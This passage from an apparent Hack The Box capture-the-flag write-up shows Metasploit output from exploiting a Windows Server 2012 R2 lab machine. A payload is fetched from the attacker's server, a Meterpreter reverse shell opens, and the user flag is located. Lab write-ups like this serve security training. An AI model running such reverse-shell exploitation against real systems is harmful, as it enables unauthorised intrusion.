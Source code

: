 After I finish setting up the reverse shell and enter `exploit`, we see the following.
```go
[*] Started reverse TCP handler on 10.10.16.5:4242 
[*] Using URL: http://10.10.16.5:8080/NchtWbPaCDlCvu
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /NchtWbPaCDlCvu
[*] Sending stage (175686 bytes) to 10.10.10.8
[!] Tried to delete %TEMP%\OIvgzTx.vbs, unknown result
[*] Meterpreter session 1 opened (10.10.16.5:4242 -> 10.10.10.8:49162) at 2023-04-11 12:04:38 +1000
[*] Server stopped.
```

We have a shell!
Executing sysinfo and ls shows we are running windows server 2012 R2 and that are already have the user flag.
```go
(Meterpreter 1)(C:\Users\kostas\Desktop) > sysinfo
Computer        : OPTIMUM
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : el_GR
Domain          : HTB
Logged On Users : 3
Meterpreter     : x86/windows
(Meterpreter 1)(C:\Users\kostas\Desktop) > ls
Listing: C:\Users\kostas\Desktop
================================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
040777/rwxrwxrwx  0       dir   2023-04-17 21:02:43 +1000  %TEMP%
100666/rw-rw-rw-  282     fil   2017-03-18 22:57:16 +1100  desktop.ini
100777/rwxrwxrwx  760320  fil   2017-03-18 23:11:17 +1100  hfs.exe
100444/r--r--r--  34      fil   2023-04-17 20:42:35 +1000  user.txt
```

Interestingly when I take screenshot of the users desktop, we can see my machine connecting to the victim through the logs in the GUI.